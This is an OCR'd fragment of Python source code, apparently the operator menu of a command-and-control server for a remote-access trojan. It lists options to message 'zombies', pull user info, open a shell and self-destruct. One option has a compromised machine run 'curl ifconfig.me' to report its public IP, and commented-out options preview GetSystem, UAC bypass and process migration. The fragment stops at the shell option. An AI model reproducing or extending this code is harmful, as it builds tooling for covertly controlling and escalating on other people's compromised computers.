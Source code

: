 ```python
            os.system("cls")
        else:
            os.system("clear")
        print(Fore.GREEN)
        print("what would you like to do?")
        print("1. Send a Message")
        print("2. Get user info")
        print("3. Get public ip")
        print("4. Kill Zombie")
        print("5. Start a Shell!")
        print("6. Whoami")
        """
        =============================================
        Preview of what's to come :)  get pumped!!!!
        =============================================
        print("7. GetSyst3m!!!")
        print("8. BypassUAC")
        print("9. Migrate Process")
        """
        print("15. Main menu")
        print(Fore.WHITE)
        try:
            choice=input(Fore.YELLOW + "[Select a number]: $ " + Fore.WHITE)
        except:    
            print(Fore.RED + "[!] enter a number..." + Fore.WHITE)
            time.sleep(2)
            return            
        if choice == "1":
            try:
                clientlist[selection][1].send(b":msg:\nhey from the server!\n")
                print(Fore.GREEN + "[+] Message Sent!" + Fore.WHITE)
                time.sleep(2)
            except:
                print(Fore.RED + "[!] there was an error sending the msg to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
        if choice == "2":
            for a in clientdata[selection]:
                print(a)
            input()
        if choice == "3":
            try:
                clientlist[selection][1].send(b"c0mm@nd\ncurl ifconfig.me\n")
                print(Fore.GREEN + "[+] command sent!" + Fore.WHITE)
                pubip=clientlist[selection][1].recv(1024)
                pubip = pubip.decode('UTF-8')
                print(pubip)
                input("press any key...")
            except:
                print(Fore.RED + "[!] there was an error sending the command to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
        if choice == "4":
            try:
                clientlist[selection][1].send(b"self-destruct\n")
                print(Fore.GREEN + "[+] zombie self-destruct succeeded!" + Fore.WHITE)
                time.sleep(2)
            except:
                print(Fore.RED + "[!] There was an issue communicating with the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
        if choice == "5":
            #starttheshell(clientlist[selection][1])
```